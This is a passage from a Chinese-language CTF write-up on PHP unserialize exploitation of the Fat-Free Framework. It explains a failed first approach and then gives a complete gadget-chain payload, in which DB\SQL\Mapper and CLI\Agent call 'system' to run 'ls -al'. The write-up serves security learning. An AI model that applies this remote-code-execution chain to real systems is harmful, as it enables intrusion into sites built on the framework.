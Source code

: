 ```php
}
```

![image16897](https://raw.githubusercontent.com/Explorersss/photo/master/20200804111403.png)

然而在题目中它虽然执行了`WEB->send`方法（根据错误信息得知），但是并不会返回`/flag`（所有文件都读不了），希望有看到的师傅给个解答



### 正解

果然是我一句魔术方法里面没啥好用的这一句话断送了我的flag，有这样一个魔术方法

![image17108](https://raw.githubusercontent.com/Explorersss/photo/master/20200804114525.png)

它通过控制`$this->props`我们可以调用任意函数，那么我们只需要找到一个可控参数的位置就可以了

找到

![image17250](https://raw.githubusercontent.com/Explorersss/photo/master/20200804120508.png)

构造payload

```php
<?php
namespace DB{
    abstract class Cursor  implements \IteratorAggregate {}
}


namespace DB\SQL{
    class Mapper extends \DB\Cursor{
        protected
            $props=["quotekey"=>"system"],
            $adhoc=["ls -al"=>["expr"=>""]],
            $db;
        function offsetExists($offset){}
        function offsetGet($offset){}
        function offsetSet($offset, $value){}
        function offsetUnset($offset){}
        function getIterator(){}
        function __construct($val){
            $this->db = $val;
        }
    }
}
namespace CLI{
    class Agent {
        protected
            $server="";
        public $events;
        public function __construct(){
            $this->events=["disconnect"=>array(new \DB\SQL\Mapper(new \DB\SQL\Mapper("")),"find")];
            $this->server=&$this;


        }
    };
    class WS{}
}
namespace {
    echo urlencode(serialize(array(new \CLI\WS(),new \CLI\Agent())));
}
```
